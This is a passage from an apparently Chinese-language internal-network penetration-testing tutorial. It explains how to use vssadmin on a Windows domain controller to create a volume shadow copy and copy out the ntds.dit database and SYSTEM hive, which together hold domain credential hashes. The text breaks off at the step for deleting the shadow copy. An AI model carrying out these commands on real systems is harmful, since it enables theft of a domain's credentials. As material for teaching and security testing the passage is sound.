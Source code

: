 ### vssadmin

vssadmin 是 WIndows Server 2008 和 Win 7 提供的 VSS 管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息 (只能管理系统 Provider 创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序等，在内网渗透测试过程中，我们也可以使用 vssadminn 来提取 ntds.dit 文件，流程如下：  
Step 1：在域控制器中打开命令环境，输入如下命令，创建一个 C 盘的影卷拷贝：

```bash
vssadmin create shadow /for=c:
```

[![](assets/1706090550-531c5a5d3caa761abb2e204a1031ba47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095039-f98df596-ba5a-1.png)  
Step 2:将 NTDS.dit 和 SYSTEM 文件从创建的影卷中复制出来

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\NTDS\ntds.dit c:\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\SYSTEM
```

[![](assets/1706090550-00be351fc25a5ee31c3f0334741fbadd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095055-030b3a20-ba5b-1.png)  
之后可以在 C 盘中看到成功复制 ntds.dit 文件：  
[![](assets/1706090550-c31eb49ebdd27fb9a6e53e152939c683.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095109-0bb04896-ba5b-1.png)  
Step 3：之后执行以下命令删除影卷信息：
